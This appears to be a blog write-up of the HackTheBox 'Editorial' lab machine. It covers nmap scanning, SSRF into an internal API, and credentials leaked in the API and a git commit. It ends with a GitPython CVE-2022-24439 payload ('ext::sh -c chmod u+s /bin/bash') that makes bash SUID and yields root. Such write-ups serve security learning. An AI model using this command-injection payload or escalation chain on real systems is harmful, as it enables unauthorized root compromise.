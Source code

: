 ```yaml
---
title: "Editorial Writeup - HackTheBox"
date: 2024-10-09
draft: false
description: `Editorial` is an easy difficulty Linux machine that features a publishing web application vulnerable to `Server-Side Request Forgery (SSRF)`. This vulnerability is leveraged to gain access to an internal running API, which is then leveraged to obtain credentials that lead to `SSH` access to the machine. Enumerating the system further reveals a Git repository that is leveraged to reveal credentials for a new user. The `root` user can be obtained by exploiting [CVE-2022-24439](https://nvd.nist.gov/vuln/detail/CVE-2022-24439) and the sudo configuration.
Tags:
- HackTheBox
- Linux
- Easy
---
```


| Link: | [https://app.hackthebox.com/machines/Editorial](https://app.hackthebox.com/machines/Editorial) |
| --- | --- |
| Difficulty | Easy |
| Machine | Linux |

---

## Enumeration

I ran nmap scan quickly on the target machine to reveal open ports on the box.

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

I again ran agressive scan on the box on two open ports again using `sudo nmap 10.10.11.20 -T4 -vv -sC -sV -A -O` , following is result of the scan:

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMApl7gtas1JLYVJ1BwP3Kpc6oXk6sp2JyCHM37ULGN+DRZ4kw2BBqO/yozkui+j1Yma1wnYsxv0oVYhjGeJavM=
|   256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXtxiT4ZZTGZX4222Zer7f/kAWwdCWM/rGzRrGVZhYx
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

I added editorial.htb to my /etc/hosts file using command “`echo '10.10.11.20 editorial.htb' >> /etc/hosts`” and then visited `http://editorial.htb` the site looks like this:

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled.png)

## User Flag

There is `/upload` endpoint where we have upload functionality. We might get File Upload to RCE on this box. I will try to upload a reverse shell script to get a shell.

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%201.png)

After bit of testing, the form field has cover url section which is actually vulnerable to SSRF and not file upload vulnerability in this website. 

The following request is vulnerable to SSRF where I will try to 

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%202.png)

Upon testing on internal network, I found that there is port 5000 open on this box.

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%203.png)

Visiting the port 5000 response i.e (`static/uploads/rrrrrrrr-eeee-zzzz-yyyyy-iscool`) reveals the api endpoint:

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%204.png)

I visited the api endpoint and tried to open the file downloaded from the request recieved from the rsponse.

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%205.png)

Upon visiting the endpoint given as by the request from above image, we get a file downloaded in our system. 

The file contains the username and password for user `dev`. Using SSH to the user and now we get user flag.

## Root Flag

There is a directory `/apps` which contains `.git` in home directory of the user dev.

```
dev@editorial:~$ ls
apps  lol.zip  user.txt
dev@editorial:~$ cd apps
dev@editorial:~/apps$ ls -la
total 24
drwxrwxr-x 6 dev dev 4096 Jun 16 08:17 .
drwxr-x--- 5 dev dev 4096 Jun 16 08:17 ..
drwxrwxr-x 2 dev dev 4096 Jun 16 08:13 app_api
drwxrwxr-x 4 dev dev 4096 Jun 16 08:10 app_editorial
drwxr-xr-x 8 dev dev 4096 Jun 16 08:09 .git
drwxrwxr-x 2 dev dev 4096 Mar  9  2021 GitDump-master
```

I will try to see logs:

```
dev@editorial:~/apps$ git log .
commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:04:21 2023 -0500

    fix: bugfix in api port endpoint

commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:01:11 2023 -0500

    change: remove debug and update api port

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev

    * To use development environment.

commit 1e84a036b2f33c59e2390730699a488c65643d28
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:51:10 2023 -0500

    feat: create api to editorial info

    * It (will) contains internal info about the editorial, this enable
       faster access to information.

commit 3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:48:43 2023 -0500

    feat: create editorial app
```

Thee commit `b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae` shows that there is change in api downgrading from `prod` to `dev`. I will try to show the commit like this:

```
dev@editorial:~/apps$ git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: R3DACTED_PASSWORD\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: R3DACTEDPASSWORD!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------

```

This has credential for both user `prod` and `dev`. Since we are already at user prod, we will change our user to `prod`.

```
dev@editorial:~/apps$ su prod
Password: 
prod@editorial:/home/dev/apps$ 
```

By using `sudo -l` i can see that this user prod can use `/usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *` as root and we wont be asked for password.

Below is the code for the python script `/opt/internal_apps/clone_changes/clone_prod_change.py`

```
prod@editorial:/home/dev/apps$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

This script changes the working directory to `/opt/internal_apps/clone_changes`, initializes a bare Git repository, and clones the repository specified by `url_to_clone` into a subdirectory named `new_changes` with a specific Git configuration option.

Doing few research there is RCE vulnerability for this. If you are interested reading you can read [here](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858).

I will use this script to make /bin/bash suid binary and then use it to get root shell.

I ran `sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% u+s% /bin/bash'`

Although I got errors, it successfully made it suid binary. I simply then ran `/bin/bash -p` to get root shell.

```
prod@editorial:~$ /bin/bash -p
bash-5.1# id
uid=1000(prod) gid=1000(prod) euid=0(root) groups=1000(prod)
```

There we go. We rooted this box successfully.

## Conclusion

Thanks for following my writeup. Follow my blogs for more. :D
